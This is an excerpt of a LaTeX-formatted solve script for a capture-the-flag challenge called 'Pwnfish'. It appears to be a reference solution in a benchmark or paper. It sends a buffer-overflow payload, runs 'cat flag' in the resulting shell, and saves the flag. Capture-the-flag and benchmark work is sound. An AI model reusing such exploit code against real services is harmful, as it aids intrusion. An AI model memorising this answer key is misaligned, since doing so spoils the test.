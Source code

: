 \begin{verbatim}
    if contains_whitespace(payload):
        print("Retrying: Whitespace in payload")
        return False

    # Perform buffer overflow
    show_fish(p, payload)
    p.recvline()

    p.sendline(b"cat flag")
    flag = p.recvline().decode("utf-8").strip()
    print(flag)
    p.close()

    flag_filename = "/run/solution/flag.txt"
    os.makedirs(os.path.dirname(flag_filename), exist_ok=True)
    with open(flag_filename, "w") as f:
        f.write(flag)
    return True

if __name__ == "__main__":
    # May fail if payload happens to contain whitespace
    # Try 20 times, though a couple tries should be enough
    for i in range(20):
        if run():
            server.stop()
            print("Status: Success")
            exit(0)

    server.stop()
    print("Status: Failed")
    exit(-1)
\end{verbatim}
\begin{listing}[H]
  \vspace{-1.5\baselineskip} %
 \caption{Pwnfish }
\label{fig:pwnfish-solve}
\end{listing}